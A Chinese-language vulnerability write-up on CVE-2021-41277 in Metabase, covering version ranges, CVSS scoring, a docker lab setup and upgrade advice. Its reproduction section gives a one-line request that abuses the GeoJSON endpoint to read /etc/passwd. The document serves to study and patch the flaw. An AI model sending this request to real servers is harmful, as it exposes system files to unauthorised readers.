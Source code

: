
# 0X00 漏洞信息
Metabase 是一个简单、开源的数据分析平台。Metabase 是基于 AGPL 协议的开源项目，其提供了多种安装方式，包括 docker 镜像、Mac、和 jar 包，安装几乎没有门槛，是一个简单而强大的分析工具，让任何人都可以从他们公司的数据中学习和做出决策。数据分析人员通过建立一个“查询”（Metabase 中定义为 Question）来提炼数据，再通过仪表盘（Dashboards）来组合展示给公司成员。攻击者可在未经身份验证的情况下获取系统敏感信息。<br />在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。


# 0X01 漏洞概述
| 漏洞名称 | Metabase 敏感信息泄露漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-41277 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 2021.09.15 |
| 分数 | 7.5 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277) |


# 0X02 影响范围
**受影响版本：**<br />metabase version < 0.40.5<br />metabase version >= 1.0.0, < 1.40.5

**修复版本：**<br />metabase version >= 0.40.5<br />metabase version >= 1.40.5


# 0X03 环境搭建
```javascript
docker pull vulfocus/metabase-cve_2021_41277:latest
docker run -d -p 8080:3000 docker.io/vulfocus/metabase-cve_2021_41277
```

也可通过 [http://vulfocus.fofa.so/](http://vulfocus.fofa.so/) 进行测试。


# 0X04 代码审计
暂无


# 0X05 漏洞复现
```javascript
http://192.168.1.40:8080/api/geojson?url=file:/etc/passwd
```
![image-20211122111233436.png](./assets/1660288163008-95480280-46b9-4200-8cdd-c7150f60fada.png)



# 0X05 POC
暂无


# 0X06 解决方案
参考漏洞影响范围，及时升级至最新安全版本：[https://github.com/metabase/metabase](https://github.com/metabase/metabase)
